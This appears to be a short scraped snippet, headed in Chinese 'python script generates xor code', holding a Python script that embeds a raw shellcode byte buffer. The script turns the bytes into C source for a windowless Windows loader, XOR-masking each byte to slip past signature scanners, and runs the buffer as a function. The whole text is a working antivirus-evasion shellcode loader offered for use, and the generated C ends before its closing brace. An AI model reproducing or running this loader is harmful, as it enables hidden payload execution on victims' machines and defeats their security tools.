 python脚本生成xor代码
```
import re
raw = r"""
unsigned char buf[] =
"\xba\x28\x95\xf9\xba\xda\xda\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
"\x71\x31\x53\x13\x83\xeb\xfc\x03\x53\x27\x77\x0c\x04\xc8\x12"
"\x29\x57\xed\x10\x6c\xdc\x35\x5f\xd5\x2e\xfc\x2e\x80\x61\x8c"
"\x44\x56\xf0\x64\xe6\x9a\xf0\x99\x78\x66\x8e\x46\x89\xe7\x22"
"\xb3\xb6\x0f\x84\xf4\xc1\xc4\x44\xfc\x96\xce\x59\x7d\xb6\x13"
"\xee\x83\xbf\x4b\x5a\xd7\x17\x76\xb4\x82\xfb\x26\x9c\x35\x20"
"\xfa\xb0\xf5\xc3\xec\xd0\x57\x94\xfa\x35\xfc\x4f\x2e\x45\xf4"
"\xdf\xc9\x7c\x49\xc7\x05\x81\x60\x60\x3f\x2c\x2c\xd9\xb7\x69"
"\xfb\x4f\xe4\x90\x4e\xde\x93\xf2\xb5\x4f\xed\xb6\x01\xeb\x54"
"\xc9\x74\xff\xe4\xd5\xcb\x4a\x44\x2a\xe9\x5c\xe8\x86\xc3\x4e"
"\x8c\x99\x64\xc1\x6d\xcb\x62\x6e\x0a\x0c\x1f\xb3\xb6\x9a\xbc"
"\x11\x2b\x08\xf1\xfb\x77\x42\xb4\x9b\x32\x78\x1a\x30\x93\xa7"
"\xf8\x18\xfb\x1f\xb2\x9b\x06\xae\xcb\x92\xd3\x9e\x7d\x78\xef"
"\x9c\xb0\xe7\x3b\x34\xf1\xd5\xe3\xea\x8f\xb8\xff\x75\xe3\xe6"
"\xe7\x43\xe5\xd8\x9f\xf3\x59\x0e\xb6\x41\x43\xfb\xe7\x2e\x94"
"\x8c\x7b\x61\x21\x7b\x3d\x52\x41\xa8\xd9\x8c\x7c\x2f\x4c\x40"
"\xbf\x82\xed\x96\xfe\xbe\x89\x86\x98\x90\x31\x69\x92\x89\x78"
"\x12\xae\x3a\x36\xe0\xf5\x1a\x8c\xda\xa4\x9f\x60\x49\x42\x5a"
"\xd8\x2d\xe0\xe9\x8e\xfe\x2d\xab\x66\x14\x60\x60\x34\x2e\xf0"
"\x48\x42\x57\xf9\x3c\xe2\xb6\xaa\x77\x48\xb3\x27\xe4\x0d\x85"
"\xd1\x40\x55\x73\xa9\x15\xd2\x9c\x1e\xf9\x54\xb1\xa2\xde\x9a"
"\x1b\x96\x3c\x54\x83\x35\xc0\x66\x23\xbe\x65\x47\x5b\x70\xf5"
"\x95\xfe\xa9\x03\xb4\x2d\xe9\x78\x42\x7e\x24\x78\x13\xbe\x0b"
"\x23\xf9\xbf\x9f\x72\xc1\xb7\x87\xd4\x66\x72\xa9\x65\x39\x47"
"\x1c\xec\x4e\x11\xa8\xb6\xc7\x18\x4f\x92\x1e\xfb\xbb\xc6\x2d"
"\x4c\x91\x83\x47\xe9\x8b\x9f\x80\xb1\xc8\x7a\xdc\x21\x0c\x34"
"\x76\x1b\xfa\xf3\x15\xc6\x0d\xa3\x74\x7d\x9d\xc3\xa3\x31\xbd"
"\x47\xf0\x9b\xc3\xd6\x7e\xec\x17\x62\x7c\x52\xeb\xc9\xdb\xaf"
"\xe7\xf8\x31\x2e\x79\xdd\xb0\x6e\x65\x96\x8f\x3c\x21\x89\xb8"
"\x02\x39\x46\xf5\xb8\x8e\x49\x14\x48\xb2\x71\xcc\xdf\x61\x45"
"\xa2\x9c\x8c\x23\x06\xe4\xf2\x91\x47\x4a\x81\xbd\x7c\xaa\x89"
"\xa0\xf5\x0a\x4d\xc1\x96\x30\x33\x71\x24\x80";
"""
regx = re.compile(r"\\x\w\w")
arr = re.findall(regx,raw)
for i in range(0,len(arr)):
    arr[i] = arr[i].replace("\\","0")
data = """
#include <windows.h>
#pragma comment(linker, "/subsystem:\\"windows\\" /entry:\\"mainCRTStartup\\"")
void test()
{
    unsigned char buf[333];

"""
data = data + "    "
print(len(arr))
for i in range(len(arr)):
    data = data + "buf["+ str(i) +"] = " + arr[i] + "^ 0x5f ^ 0x5f;"
    if(i%100 == 0):
        data = data + "\r\n    "

data = data + """
    ((void(*)(void))&buf)();
}
int main(int argc, char* argv[])
{
    test();
    return 0;
```